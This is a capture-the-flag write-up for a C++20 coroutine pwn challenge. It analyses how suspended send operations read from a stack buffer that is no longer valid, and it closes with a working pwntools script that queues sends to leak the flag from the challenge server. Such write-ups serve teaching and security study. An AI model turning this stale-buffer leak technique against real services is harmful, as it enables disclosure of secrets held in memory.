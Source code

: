 # PWN/Coroutine

## Description

C++20 introduced coroutines, can they be used safely?
`nc coroutine.chal.idek.team 1337`


## Coroutine
This challenge is on C++ coroutines that are introduced in C++ 20. I suggest to read up on the [documentation](https://en.cppreference.com/w/cpp/language/coroutines) and get familiarize with coroutines before reading further.

In any case, here are the important points:
1. Coroutines are function that can be suspended and resume later.
2. Coroutines are stackless, obviously? cause the stack frame will be erase by other functions.
3. Information about the state of the coroutine is stored in a coroutine handler. I.E. local variables, parameters. Heap allocated local variables wtf -.-.
4. Coroutines are functions that contains the co_await, co_yield and co_return expression or implements `co_await` operator.
5. If we look at the disassembly of the compiled binary, any coroutine will have 3 functions under the same function symbol, which I am guessing is for `await_ready`, `await_resume` and `await_suspend` respectively.
6. Coroutines differ from threads: a program with coroutines execute sequentially and support multiple concurrent functions (by suspending and resuming coroutine functions), while a program spawning threads executes multiple parallel threads. In other words, a program with coroutines schedule its own execution of coroutines.

## Code analysis
Thankfully, source code is given. I will cover only the important functions, so lets drive right into it.

![image](https://user-images.githubusercontent.com/24536991/212623718-11bfd200-9eac-41ef-8867-2fd8eaea41ca.png)

The main function is responsible for setting up everything. It first creates the `io_context` struct on the stack then pass the `io_context` to `server` function.

### io_context

![image](https://user-images.githubusercontent.com/24536991/212623823-807666e7-9e8e-487f-ac7c-57b9e4f14e87.png)

In the `io_context` struct, there are 2 `vectors` (`reads_` and `writes_`) which holds our suspended coroutines. 

![image](https://user-images.githubusercontent.com/24536991/212624211-8f25227d-a8b6-42bc-8441-45f5988105a0.png)

In the `run_until_done` function, it calls `load_flag`, which loads the flag into a new stack frame, then loops through `reads_` and `writes_` that are ready for IO and resume each coroutine.

It also contains some helper functions such as `add_write`, `add_read` and `cancel` to help modify the `reads_` and `writes_` coroutine vector. `io_context` is the 'scheduler' for the program.

### client_loop
In the `server` function, it initialize the sockets for the connection and listens for connections. It then calls `client_loop`, which is the main part of this challenge. 

![image](https://user-images.githubusercontent.com/24536991/212624568-6adccd8f-d96f-4fe4-8bd9-4a53c1c0d96d.png)

Here we can see that it calls `RecvAsync` to receive input from us then calls `SendAllAsyncNewline` to echo it back to us. Hmmmm, why is the way receive and send being called differently? 

### RecvAsync & SendAsync
Lets take a look at the `RecvAsync` class first. 

![image](https://user-images.githubusercontent.com/24536991/212624774-90ed7760-4d11-4486-85f9-165c61dd2d59.png)

The constructor of `RecvAsync` declared a co_await operator, which will make it a coroutine. Here we see 3 functions (`await_ready`, `await_suspend`, `await_resume`). `await_ready` is the first function to be called when co_await `RecvAsync` is called. If `await_ready` returns false, it will call `await_suspend`, else it will call `await_resume`. `await_resume` is also called when the coroutine is resumed externally, by `io_context` for example. 

`await_ready` tries to recv from the socket, if successful, it will return true, else (no data have been entered through the proxy) it returns false and calls `await_suspend` which will store the coroutine handler to `io_context` (which then resumes the coroutine via `run_until_done`). In the challenge, `await_suspend` will always be called since it is very likely for the `recv` at `await_ready` to return -1 (it is unlikely for proxy.py to win the race since we are from a remote connection).

However, the same cannot be said for `SendAsync`. `SendAsync` has roughly the same code as `RecvAsync`, just switching `recv` to `send`. Here, `await_suspend` in `SendAsync` is unlikely to be called since `send` is likely to be successful, unless ....., `proxy.py`'s receive buffer is full, which we have control over.

### SendAllAsyncNewline & SendAllAsync

![image](https://user-images.githubusercontent.com/24536991/212625343-137feb11-810a-4b7b-becc-6dbd2beaec64.png)

Note that `SendAsync` is being called differently from `client_loop`. It first calls `SendAllAsyncNewline` which does not seems like a coroutine (see point 4 above), but it calls `SendAllAsync` which is a coroutine. It also allocates a `buffer2` which is on the stack, copy the content from `RecvAsync` to `buffer2`, and pass `buffer2` to `SendAllAsync` then to `SendAsync`. `buffer2` becomes invalid once `SendAllAsyncNewline` finish execution.  

What this means is that, `SendAsync` sends data from the stack and `RecvAsync` recv data to the heap (which is then copy to the stack in `SendAllAsyncNewLine`. Lets verify this in a debugger.

address starts with 0x7f -> stack, address starts with 0x56 -> heap

#### Register Content at `RecvAsync` `await_ready`. RSI holds the address of the buffer.

![recvasync](https://user-images.githubusercontent.com/24536991/212626020-3dd3862f-45de-4d2b-a7dd-e4c293c1cb3c.png)


#### Register Content at `SendAllAsyncNewline`. RCX holds the address of the buffer.

![sendallasyncline](https://user-images.githubusercontent.com/24536991/212626299-9fbf0762-5939-4507-bd7e-5310f1435a98.png)


#### Register Content at `SendAsync` `await_ready`. RSI holds the address of the buffer.

![sendasync](https://user-images.githubusercontent.com/24536991/212626320-64bbdc7c-d196-45b5-ae01-c6d21926f848.png)



On top of this, since `SendAllAsync` is called not as a coroutine in `SendAllAsyncNewline`, `SendAllAsyncNewline` ends up calling the `await_ready` function of `SendAllAsync`. This means `SendAllAsyncNewLine` could return to `client_loop` before the `send` was completed, through suspending `SendAsync`. This allows the next `RecvAsync` to be processed before the previous `send` finishes, and multiple send could be on hold at the same time if the `proxy.py` receive buffer is full. In addition, the buffer for `SendAsync` becomes invalid since `SendAllAsyncNewline` would have finished execution.  

### Exploit

Now it become obvious, since data is sent from the stack, which is always at the same address, there is a possibility of data overwriting. We can make use of `RecvAsync` to set the buffer size of the current `SendAsync` (by sending a N length string from `proxy.py`), and make `SendAsync` suspend so we can call `RecvAsync` again. We repeat this again, to queue at least 2 `SendAsync` into the `writes_` vector in the `io_context`, there after we drain the `writes_` vector twice (by receiving data from `proxy.py`, thereby making send free again), the first time to print garbage since `RecvAsync` would have cleared the flag in the stack, the second time to call `load_flag`, to load the flag into the stack and print out the flag (which coincides with `buffer2` in send `SendAllAsyncNewline`).

## Exploit Script

```
from pwn import *
import time
#context.log_level = 'debug'
p = remote("coroutine.chal.idek.team", 1337)

def conn():
    p.recvuntil(b"> ")
    p.sendline(b"1")

def set_rcv(size):
    p.recvuntil(b"> ")
    p.sendline(b"2")
    p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

def send_str(string):
    p.recvuntil(b"> ")
    p.sendline(b"4")
    p.recvuntil(b"> ")
    p.sendline(string)

def recv(size):
    #p.recvuntil(b"> ")
    p.sendline(b"5")
    #p.recvuntil(b"> ")
    p.sendline(str(size).encode('utf-8'))

set_rcv(8)
conn()

for i in range(8):
    send_str(b"A" * 512)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
time.sleep(0.5)
recv(16000)
p.interactive()

```
